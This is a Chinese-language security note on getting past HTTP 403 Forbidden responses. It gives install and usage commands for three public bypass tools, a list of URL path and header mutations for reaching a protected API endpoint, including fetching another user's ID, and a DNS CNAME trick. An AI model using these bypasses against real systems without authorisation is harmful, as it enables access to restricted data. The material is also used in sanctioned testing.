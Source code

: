 # 3个工具
## 1、byp4xx

`https://github.com/lobuhi/byp4xx`  <br>
安装： <br>

```shell
git clone https://github.com/lobuhi/byp4xx.git
cd byp4xx
chmod u+x byp4xx.py
./byp4xx.py
or
python3 byp4xx.py
```

或者使用pip安装：<br>

`pip install git+https://github.com/lobuhi/byp4xx.git` <br>
使用方法： <br>

`python3 byp4xx.py <cURL options> <target>`
示例： <br>

`python3 byp4xx.py https://www.google.es/test` <br>
byp4xx还自带了一个不错的字典，当使用默认参数测试完毕后，它会询问你是否使用自带的字典再跑一遍： <br>
![img.png](img.png)


## 2、Bypass-403

`https://github.com/iamj0ker/bypass-403`


安装：

```shell
git clone https://github.com/iamj0ker/bypass-403
cd bypass-403
chmod +x bypass-403.sh
sudo apt install figlet  #依赖安装
```


使用方法：

```shell
/bypass-403.sh https://example.com admin
或
./bypass-403.sh website-here path-here
```


## 3、forbinddenpass

`https://github.com/gotr00t0day/forbiddenpass`

安装：

```shell
git clone https://github.com/gotr00t0day/forbiddenpass.git

cd forbiddenpass

pip3 install -r requirements.txt

python3 forbiddenpass.py -h
```


使用方法：

`forbiddenpass.py [-h] [-p domain.com] [-d filename.txt] [-t site.com]`

示例：


```shell
python3 forbiddenpass.py -d domains.txt

python3 forbiddenpass.py -d domains.txt --path login

python3 forbiddenpass.py -t https://site

python3 forbiddenpass.py -t https://site --path login

```


## 403 Bypass tricks
https://twitter.com/mamunwhh/status/1496786769316294659
```
Bypass 403 on /api/v1/user/id

/api/v1/user/id.json
/api/v1/user/id?
/api/v1/user/id/
/api/v2/user/id
/api/v1/user/id&accountdetail
/api/v1/user/yourid&victimid
X-Original-URL: /api/v1/user/id/


```


## A trick
https://systemweakness.com/how-i-bypassed-403-forbidden-domain-using-a-simple-trick-c2d538de04b8

```
dig redacted.com

```
![img_1.png](img_1.png)

要点: 从 `$dig target.com `知道 CNAME 后.....如何获得 200 ....🤔🤔 ====>在浏览器中点击 cname






